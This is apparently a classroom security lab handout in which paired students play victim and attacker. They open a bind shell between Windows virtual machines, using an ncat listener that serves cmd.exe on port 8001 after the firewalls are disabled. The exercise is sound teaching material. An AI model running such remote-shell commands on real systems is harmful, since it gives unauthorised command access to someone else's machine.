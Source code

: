 ```yaml
---
layout: editorial
---
```


# Getting a Shell

## Objective

Examine and test how threat actors obtain a shell on a remote computer.

**NOTE: This lab is similar to what you did when you used Metasploit to exploit your Windows XP system.**

## Discussion

It is important to understand how attackers are able to obtain a shell on a remote system since it is a common method of maintaining access and stealing data (exfiltration or exfil). Notice that they are able to use any arbitrary port.

## Preparation

1. Each person must change the Network Adapter on their Windows 10 Virtual Machine to “NETSEC-WAN”
   1. You may have to run: ipconfig /release ; ipconfig/renew
2. You should have an IP address in the 10.0.16.XXX range
3. Download nmap on your Windows 10 Virtual Machine: [https://nmap.org/dist/nmap-7.93-setup.exe](https://nmap.org/dist/nmap-7.93-setup.exe)

## Scenario

Assume two systems can directly communicate to each other on an arbitrary port (ie. there's no firewall or other device preventing them from communicating directly to each other.) **Alice is the victim** and **Eve is the attacker** so one of you will be Alice for the duration of the assignment and the other one Eve. **When the first person is done with this lab, switch roles.**

## Begin Lab Preparation

1. **Make a note of each other’s IP address.**
2. **Ensure the two Windows workstations can ping each other and disable the firewall on both hosts.**

**Goal: On Alice’s computer, a \_listener \_(-l**) (lower case L) is started on port 8001 and anyone that connects to it will get a command prompt on Alice's computer. The **-v** is for \_verbose \_mode. It is always a good option so you know what is going on as the shell is being set up.

Alice (Type the command): **ncat -l 8001 -e cmd.exe -v**

Eve Connects to Alice's computer on port 8001.

Eve (Type the command):\*\* ncat X.X.X.X 8001\*\*

Replace X.X.X.X with the IP address of Alice’s computer.

Eve should now see something like this:

**Microsoft Windows \[Version 6.1.7601]**

**Copyright (c) 2009 Microsoft Corporation. All rights reserved.**

**c:\Program Files\Nmap>**

Eve is now logged into Alice's system and can type commands as if she was sitting in front of Alice’s computer.

Run the command:

**ipconfig /all**

which should display the IP address of the windows system of your Partner.
